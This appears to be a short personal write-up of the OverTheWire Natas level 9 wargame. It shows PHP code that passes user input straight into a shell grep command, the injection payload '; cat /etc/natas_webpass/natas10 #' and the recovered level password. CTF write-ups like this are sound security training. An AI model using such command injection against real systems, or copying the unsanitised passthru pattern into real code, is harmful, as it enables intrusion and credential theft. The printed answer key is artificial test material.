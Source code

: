 ```
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>

```


passthru executres external command


; cat /etc/natas_webpass/natas10 #

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu


looked this one up, couldnt do myself
to be fair, noone mentioned that the password is in /etc/natas_webpass/natas10
yes it could be infereed if you looked at one past question, but still..